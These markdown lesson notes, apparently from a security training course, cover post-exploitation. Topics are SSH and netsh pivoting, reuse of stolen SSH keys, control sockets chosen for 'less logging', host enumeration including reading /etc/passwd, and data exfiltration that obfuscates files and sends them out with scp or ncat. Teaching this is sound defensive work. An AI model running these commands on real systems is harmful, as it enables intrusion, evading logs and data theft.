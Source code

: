 # Post Exploitation
https://sec.cybbh.io/public/security/latest/lessons/lesson-8-post_sg.html

## Pivoting & Redirection
- During the lesson we will review the following topics:
  - Control Sockets
  - Enumeration
  - Exfiltration

## SSH Overview
- Basic Characteristics
  - Access remote systems using an SSH server as a proxy
  - Securely transfer files
  - Execute commands on a remote system
  - VPN using the SSH protocol as a transport
  - Forwarding the X Window System display to the client system

## Linux Targets
- Local Port Forward
```
-L <USER PORT ON LOCAL>:TARGETHOST:TARGETPORT
```
- Remote Port Forward
```
ssh USER@<PIVOT IP> -R <REMOTE PORT ON PIVOT>:TARGETHOST:TARGETPORT
```

## Windows Targets
- Port Proxying
```
netsh interface portproxy add v4tov4 listenport=<LocalPort> listenaddress=<LocalIP> connectport=<TargetPort> connectaddress=<TargetIP> protocol=tcp
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenport=<LocalPort>
netsh interface portproxy reset
```

## SSH Keys
- SSH keys are asymetric(public/private) key pairs that can be used to authenticate a user to a system in combination with or to replace the use of a password
- If you are able to find a users private ssh key it can potentially be used to gain access to other systems

### Using Stolen SSH Keys
- Bring private key to your own box
- On your box:
```
chmod 600 /home/student/stolenkey
ssh -i /home/student/stolenkey jane@1.2.3.4
```
> ssh as the user who is the original key owner

## Control Sockets
- Benefits Provided Include:
- Multiplexing
- Data exfiltration
- Less logging

## Control Sockets (config)
- Two main ways to configure:
  - Command Line Method
  ```
  ssh -M -S /tmp/s root@<IP ADDRESS> <TUNNEL COMMANDS -R or -L>
  
  ssh -S /tmp/s x@x
  scp -o 'ControlPath=/tmp/s' x@x:<Path>
  ```
  - Configuration File Method (~/.ssh/ssh_config)
  ```
  HostName *
  ControlPath ~/.ssh/controlmasters/%r@%h:%p
  ControlMaster auto
  ControlPersist 10m
  ```
  
# Local Host Enumeration

## User Enumeration
- Why is this important?
- What does it provide?

- Windows
```
net user
```
- Linux
```
cat /etc/passwd
```

## Process Enumeration
- Why is this important?
- What does it provide?

- Windows
```
tasklist /v
```

- Linux
```
ps -elf
```

## Service Enumeration
- Why is this important?
- What does it provide?

- Windows
```
tasklist /svc
```

- Linux
```
chkconfig                   # SysV
systemctl --type=service    # SystemD
```

## Network Connection Enumeration
- Why is this important?
- What does it provide?

- Windows
```
ipconfig /all
```

- Linux
```
ifconfig -a      # SysV (deprecated)
ip a             # SystemD
```

## Data Exfiltration
- Session Transcript
```
ssh <user>@<host> | tee
```
- Obfuscation (Windows)
```
type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out
certutil -encode <file> encoded.b64
```
- Obfuscation (Linux)
```
cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt
cat <file>> | base64
```
- Encrypted Transport
```
scp <source> <destination>
ncat --ssl <ip> <port> < <file>
```







